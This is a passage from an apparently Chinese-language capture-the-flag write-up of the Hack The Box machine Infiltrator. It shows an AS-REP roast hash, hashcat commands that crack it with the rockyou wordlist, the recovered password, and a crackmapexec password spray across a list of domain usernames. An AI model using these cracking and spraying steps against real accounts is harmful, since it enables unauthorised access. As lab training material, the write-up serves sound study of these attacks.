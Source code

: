 [![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015182730782-1910179758.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015182730782-1910179758.png)



```
$krb5asrep$23$l.clark@infiltrator.htb@INFILTRATOR.HTB:a1d4f31dcf6bc05a04dee51be421e533$0aa08870f1211e00c6db740e862bce466a86986da0fe451e8136c2ed02dc0749a729f85566ebc762e2f65ac62348f6c246dd22f1383a8b5b9ba0af2357252dd04f0359761f11ffcf00ad31f78e100df2e00b771ca041e156aac6400ad50849c55e21ca5e23f04336228446714cdbf54b8e0aee48749cf472d8cbcf06a752990077edfd9361c85d9c28bbd072379b66d6bddafa1f751c8f9ee6644a99fd89c7bb7900f66f7d83d3180fb04e91f3471a512987c18400b122251160730106144d1a18e91a1243f5b2c2ff50a2baa10dda423781df8a4301c723858c6d8d580591f3d2a70295a18298d1b519498e27db17544733

```

# Hash brute


`hashcat output.txt`


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015183108875-231215521.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015183108875-231215521.png)


探测出来18200，直接rockyou爆破


`hashcat output.txt -a 0 -m 18200 /usr/share/wordlists/rockyou.txt`


爆破出密码:`WAT?watismypass!`


得到凭据:`l.clark:WAT?watismypass!`


# 密码复用


跑smb，wmi都连不上去，说明这个用户没啥大用，看有没有其它用户复用这个密码



```
d.anderson
o.martinez
k.turner
a.walker
m.harris
e.rodriguez

```

`crackmapexec smb 10.10.11.35 -u 1.txt -p 'WAT?watismypass!'`


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015184748825-947714967.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015184748825-947714967.png)

